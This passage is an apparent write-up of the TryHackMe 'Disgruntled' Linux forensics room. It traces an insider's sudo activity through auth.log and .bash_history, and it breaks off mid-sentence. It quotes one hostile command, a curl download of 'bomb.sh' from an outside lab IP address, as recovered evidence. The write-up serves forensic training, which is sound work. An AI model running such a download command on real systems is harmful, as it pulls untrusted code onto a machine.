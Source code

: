 # Disgruntled
A TryHackMe box focusing on Linux forensics.

This box is created around the scenario of a disgruntled IT user conducting suspicious activity on the network. My job is to discover what they did and stop it. 

### 1. What commands did they run?

The user installed a package on the machine with elevated privledges. In order to find out what commands they ran I will be looking in the authentication logs or auth.log located in /var/log.

<p><span style="color:red"><em>cat auth.log | grep -i COMMAND</em></span></p>

The package they installed was named dokuwiki, which is an opensource wiki software written in PHP. The present owkring directory was /home/cybert. This user also created a user and a script file. This information can still be gathered by using the command above. 

```
User created - it-admin
Date sudo was given - Dec 28 06:27:34
Script file name - bomb.sh
```
To find more information on bomb.sh, I will be looking in the .bash_history file. The command used to created the file was curl 10.10.158.38:8080/bomb.sh --output bomb.sh. the file was then renamed and moved to  
